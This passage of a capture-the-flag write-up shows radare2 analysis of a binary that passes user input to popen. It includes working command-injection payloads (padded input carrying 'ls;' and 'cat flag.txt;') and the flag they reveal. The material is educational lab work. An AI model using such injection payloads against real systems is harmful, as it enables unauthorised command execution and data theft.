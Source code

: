 * Press `V` again

Then we can see a `popen` call being executed, if `strmp` is successful (see the red line with path name `f`alse, leading to the branch if `jne eax eax` after `strmp` is not true?):

![](./r2-graph.png)

So this suggests, that `popen` is called on the part of our input after the newline `\n` - which is why we get an error message from `sh` telling us that the command `BBBBBBBBBBBBBBBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb` doesn't exist.

So we try to inject a valid command and seperate the valid command with the invalid command by adding a `;` after our valid command:

```bash
$ p -c 'print "A"*0x100+"ls;".ljust(0x1B,"B")+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file 
flag.txt
secret_data.asc
secret_file
sh: 1: BBBBBBBBBBBBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
```

Let's see what is in both `flag.txt` and `secret_data.asc`:

```bash
$ p -c 'print "A"*0x100+"cat secret_data.asc;".ljust(0x1B,"B")+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file                                
You do not really think it's that easy, do you?
sh: 1: BBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
$ p -c 'print "A"*0x100+"cat flag.txt;".ljust(0x1B,"B")+"e075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb"' | ./secret_file
CAMP15_82da7965eb0a3ee1fb4d5d0d8804cc409ad04a4f5e06be2f2bbdbf1c0cd638a7
sh: 1: BBBBBBBBBBBBBBe075f2f51cad23d0537186cfcd50f911ea954f9c2e32a437f45327f1b7899bbb: not found
```

We see our flag, `CAMP15_82da7965eb0a3ee1fb4d5d0d8804cc409ad04a4f5e06be2f2bbdbf1c0cd638a7`!
